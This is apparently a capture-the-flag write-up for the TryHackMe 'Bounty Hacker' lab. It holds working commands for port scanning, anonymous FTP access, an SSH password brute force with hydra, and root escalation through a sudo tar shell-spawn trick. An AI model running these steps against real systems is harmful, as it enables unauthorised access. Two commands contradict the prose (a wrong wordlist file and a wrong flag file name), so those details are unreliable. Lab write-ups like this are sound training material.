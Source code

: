 # Bounty Hacker

<img align="right" src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/cowboyhacker/cowboyhacker1.png" width="150" height="150">

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

LINK = [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)

### FYI
This writeup don't include any passwords/cracked hashes/flags

# Description

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

# Steps
1 - Join the room, start the virtual machine and the AttackBox (or connect via VPN)

2 - Find open ports on the machine
* ```# nmap <ip-virtual-machine>```



* After nmap is finished scanning, our output shows three open ports:
```
21 | ftp
22 | ssh
80 | http
```

3 - Who wrote the task list?
* Access the ftp of the virtual machine with ```anonymous``` user
* ```# ftp <ip-virtual-machine>```
* List and download all the files in the ftp server
* ```ftp> dir```
* ```ftp> get locks.txt```
* ```ftp> get task.txt```
* View the content of tast.txt
* ```# cat task.txt```

4 - What service can you bruteforce with the text file found?
* Check the result of the nmap scan

5 - What is the users password? 
* Use hydra with the locks.txt file to bruteforce the ssh user and pasword
* ```# hydra -l lin -P /root/task.txt <ip-virtual-machine> ssh```

6 - user.txt
* With the result of hydra login in to the virtual machine via ssh and get the flag of the ```user.txt```

7 - root.txt
* Run ```# sudo -l``` to list the commands that the ```lin``` user can run as sudo, you can see that ```/bin/tar``` is the only one
* Go to [GTFOBins](https://gtfobins.github.io/) and search for ```tar``` bypass command and execute it:
* ```# sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
* Search the root.txt file
* ```# find / -name flag.txt 2>/dev/null```
* Get the flag

